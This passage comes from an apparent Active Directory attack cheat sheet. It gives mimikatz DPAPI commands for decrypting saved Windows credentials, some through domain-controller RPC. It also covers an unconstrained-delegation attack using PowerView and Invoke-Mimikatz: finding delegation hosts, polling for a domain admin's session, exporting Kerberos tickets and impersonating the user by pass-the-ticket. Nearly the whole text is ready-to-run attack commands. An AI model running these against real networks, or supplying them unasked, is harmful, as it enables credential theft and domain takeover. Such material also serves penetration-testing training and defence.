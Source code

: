 ```powershell
#By using the cred function of mimikatz we can enumerate the cred object and get information about it:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"

#From the previous command we are interested to the "guidMasterKey" parameter, that tells us which masterkey was used to encrypt the credential
#Lets enumerate the Master Key:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"

#Now if we are on the context of the user (or system) that the credential belogs to, we can use the /rpc flag to pass the decryption of the masterkey to the domain controler:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc

#We now have the masterkey in our local cache:
dpapi::cache

#Finally we can decrypt the credential using the cached masterkey:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```

⧉ Copied!

Detailed Article:
[DPAPI all the things](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)

### Unconstrained Delegation

*WUT IS DIS ?: If we have Administrative access on a machine that has Unconstrained Delegation enabled, we can wait for a
high value target or DA to connect to it, steal his TGT then ptt and impersonate him!*

Using PowerView:

```powershell
#Discover domain joined computers that have Unconstrained Delegation enabled
Get-NetComputer -UnConstrained

#List tickets and check if a DA or some High Value target has stored its TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

#Command to monitor any incoming sessions on our compromised server
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay
<WaitInterval> -Verbose

#Dump the tickets to disk:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

#Impersonate the user using ptt attack:
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```
